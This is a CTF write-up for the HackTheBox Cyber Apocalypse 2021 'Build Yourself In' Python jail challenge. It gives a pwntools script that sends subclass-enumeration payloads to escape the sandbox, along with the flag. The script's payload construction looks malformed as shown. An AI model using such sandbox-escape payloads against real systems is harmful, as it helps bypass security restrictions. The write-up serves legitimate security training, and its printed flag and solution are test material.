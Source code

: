 ```yaml
---
name: Build Yourself In (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Misc
description: Writeup for Build Yourself In (Misc) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Build Yourself In

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3hP158TJk84/0.jpg)](https://youtu.be/3hP158TJk84?t=28s "HTB Cyber Apocalypse CTF 2021: Build Yourself In")

## Challenge Description

> The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

context.log_level = 'warning'

for i in range(100):
    io = remote("138.68.151.248", 30697)
    # to_enumerate = '().__class__.__base__.__subclasses__()'
    to_enumerate = '().__class__.__base__.__subclasses__()'
    io.sendlineafter(
        '>>>', '[print(x) for x in [[' + to_enumerate + str(i) + ']]]')
    print(io.recvline())
```
{% endcode %}

Flag: `CHTB{n0_j4il_c4n_h4ndl3_m3!}`
